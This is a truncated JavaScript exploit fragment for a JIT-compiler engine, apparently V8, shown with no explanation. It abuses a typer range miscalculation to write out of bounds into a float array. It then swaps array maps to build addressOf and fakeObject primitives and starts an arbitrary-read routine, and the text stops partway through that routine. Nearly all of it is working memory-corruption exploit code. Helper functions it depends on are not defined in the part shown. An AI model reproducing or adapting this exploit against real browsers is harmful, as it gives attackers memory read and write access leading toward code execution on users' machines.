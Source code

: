 ```html
function f(x)
{   float_arr = [1.1, 2.2, 3.3, 4.4];
    obj_arr = [float_arr, float_arr, float_arr, float_arr];
    let t = (x == 1 ? 9007199254740992 : 9007199254740989);
    t = t + 1 + 1;          //range(9007199254740991,9007199254740992)|range(9007199254740991,9007199254740994)
    t -= 9007199254740989;  //range(2,3)|range(2,5)
    t -= 1;                 //range(1,2)|range(1,4)
    t *= 2;                 //range(2,4)|range(2,8)
    t -= 1;                 //range(1,3)|range(1,7)
    float_arr[t] = 1.0864618449742194e-311;
    console.log('arr[t]:',t); 
}


f(1);

for(let i=0;i<0x10000;i++) {
     f(1);
}

f(1);
var float_arr_map_idx =4;
var obj_arr_map_idx = 14;
var float_arr_map = float_arr[float_arr_map_idx];
var obj_arr_map = float_arr[obj_arr_map_idx];

console.log('[*]float_arr_map:',hex(f2i(float_arr_map)));
console.log('[*]obj_arr_map:',hex(f2i(obj_arr_map)));

function addressOf(obj2leak) {
    obj_arr[0] = obj2leak;
    float_arr[obj_arr_map_idx] = float_arr_map;
    let re = obj_arr[0];    //leaked_addr
    float_arr[obj_arr_map_idx] = obj_arr_map;
    return f2i(re)-1n;
}

function fakeObject(addr2fake) {
    float_arr[obj_arr_map_idx] = float_arr_map;
    obj_arr[0] = i2f(addr2fake+1n);
    float_arr[obj_arr_map_idx] = obj_arr_map;
    return obj_arr[0];
}

var fake_arr_to_obj = [
    float_arr_map,  //map
    i2f(0n),    //properties
    i2f(0xdeaddeadn),   //elements
    i2f(0x1000000000n),     //length
    1.1,2.2
];

var fake_obj_addr = addressOf(fake_arr_to_obj);

var fake_obj = fakeObject(fake_obj_addr-0x30n);
console.log('[*]fake_obj_addr:',hex((fake_obj_addr)));

function arb_read(read_addr) {
    console.log('readaddr:',hex(read_addr));
    fake_arr_to_obj[2] = i2f(read_addr-0x10n+1n);

    var leaked_data = fake_obj[0];
```